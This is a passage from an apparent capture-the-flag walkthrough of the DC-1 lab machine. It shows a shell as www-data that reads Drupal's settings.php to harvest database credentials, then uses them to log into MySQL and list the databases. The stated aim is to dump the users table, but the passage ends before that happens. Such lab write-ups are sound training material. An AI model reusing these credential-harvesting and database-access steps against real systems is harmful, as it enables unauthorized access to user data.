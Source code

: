 ~~~
www-data@DC-1:/var/www/sites/default$ cat settings.php
cat settings.php
<?php

/**
 *
 * flag2
 * Brute force and dictionary attacks aren't the
 * only ways to gain access (and you WILL need access).
 * What can you do with these credentials?
 *
 */

$databases = array (
  'default' => 
  array (
    'default' => 
    array (
      'database' => 'drupaldb',
      'username' => 'dbuser',
      'password' => 'R0ck3t',
      'host' => 'localhost',
      'port' => '',
      'driver' => 'mysql',
      'prefix' => '',
    ),
  ),
);
~~~

# Flag 3

## Connect to the database

Let's connect to the database and dump the users table.

~~~
www-data@DC-1:/var/www/sites/all$ mysql -u dbuser -p
mysql -u dbuser -p
Enter password: R0ck3t

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 5234
Server version: 5.5.60-0+deb7u1 (Debian)

Copyright (c) 2000, 2018, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| drupaldb           |
+--------------------+
2 rows in set (0.00 sec)
~~~